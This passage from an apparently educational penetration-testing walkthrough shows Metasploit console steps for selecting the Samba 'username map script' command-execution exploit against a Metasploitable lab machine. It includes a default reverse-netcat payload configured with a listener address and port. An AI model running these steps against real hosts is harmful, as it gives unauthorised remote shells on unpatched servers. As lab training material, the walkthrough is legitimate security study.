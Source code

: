 ```
msf6 auxiliary(scanner/smb/smb_version) > search username map script
```

```
Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ‐‐‐‐                                   ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐       ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  auxiliary/scanner/oracle/oracle_login                   normal     No     Oracle RDBMS Login Utility
   1  exploit/multi/samba/usermap_script     2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/samba/usermap_script
```

As you can see, there is an exploit for this vulnerability with an excellent rank. Let’s use this one and try to gain access to the metasploitable machine:

```
msf6 auxiliary(scanner/smb/smb_version) > use 1
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options
```

```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ‐‐‐‐    ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ‐‐‐‐   ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   LHOST  192.168.74.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

We can see that the Payload options are already set up. I will not change it. You can change the LHOST to your attack machine’s IP address. We only need to set up the RHOSTS option:
